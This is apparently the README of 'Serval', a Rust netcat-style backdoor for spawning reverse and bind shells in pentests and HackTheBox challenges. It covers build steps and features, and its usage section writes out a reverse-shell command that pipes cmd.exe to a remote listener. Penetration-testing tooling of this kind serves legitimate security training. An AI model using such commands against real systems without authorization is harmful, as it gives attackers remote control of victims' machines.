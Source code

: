## A Netcat style backdoor for pentesting and pentest challenges

Serval is a lightweight, easy-to-use, binary for spawning reverse and bind shells for pentests or pentesting exercises. Serval is cross platform and can be compiled for both Windows 32 & 64-bit and Linux 32 and 64-bit. Note: Due to the flexibility of Rust
it may be possible to compile for other platforms (such as ARM) but I have not tested for other platforms. 

### Why? 
I developed Serval to remove my dependecy on netcat during HacktheBox challenges since it can be bothersome to find netcat binaries for Windows (especially with the -e option) and it is even more difficult to find a binary from a trusted source.

### Features
* Cross-compileable! Can be built for Linux or Windows
* Command line history. Up and Down arrows will scroll through command history.
* Command line history search! ctrl-r to reverse search your command history.
* Line editing. Backspace and left-right arrow keys work!
* Interoperability. Only have netcat on your target? No problem! The serval listener can still catch the shell and give you the advanced features.

### Installation

#### Rust Users (Compile from source)

Download the source from github
> git clone https://github.com/tgadola/serval.git && cd serval-master

*Optional: Edit the build file at .cargo/config to rewrite your buildpath.

Build the binary for your current platform. 
> cargo build --release

*Note: v1.1.0 requires Rust nightly 

You can build for other platforms using 
> cargo build --release --target \<target-triple>

#### Other
If you're a particulary trusting individual you can download the pre-built binaries [here](https://github.com/tgadola/serval/releases).

### Usage

By default Serval will either listen or connect to a port and pipe standard input and output to that connection. The -e flag will spawn a process and pipe its standard input and output across the network. 

#### Start a listener
Serval listens on all interfaces.

Use the -H flag to activate the line editing and command history features!
> serval -l 4400 -H

#### Spawn a reverse shell 
> serval.exe \<listening ip> \<listening port> -q -e cmd.exe

#### ????

#### Profit

### Special Thanks
A big thank you to @kkawakam-transferwise and their Rustyline crate, which does literally all of the heavy lifting. Check out [Rustyline](https://github.com/kkawakam/rustyline)!

Thank you to the creators and contributors of Clap! Check out [Clap](https://github.com/clap-rs/clap).

Thank you to the creators and contributors of Anyhow! Check out [Anyhow](https://github.com/dtolnay/anyhow). +1 for the great crate name.

Thanks to @jaynus for all of his Rust advice

### License

Apache 2.0. See the License file for more info.
